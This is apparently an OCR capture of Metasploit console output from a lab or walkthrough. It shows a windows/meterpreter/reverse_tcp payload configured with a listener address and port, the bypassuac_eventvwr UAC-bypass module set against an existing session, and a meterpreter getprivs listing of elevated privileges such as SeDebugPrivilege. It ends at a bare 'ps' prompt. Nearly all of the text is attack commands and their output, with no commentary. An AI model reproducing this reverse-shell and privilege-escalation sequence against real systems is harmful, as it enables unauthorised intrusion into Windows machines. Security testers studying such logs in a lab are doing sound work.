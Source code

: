     
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    msf5 exploit(windows/local/bypassuac_eventvwr) > set session 3
    session => 3

----

    meterpreter > getprivs
    
    Enabled Process Privileges
    ==========================
    
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege

---

    meterpreter > ps
    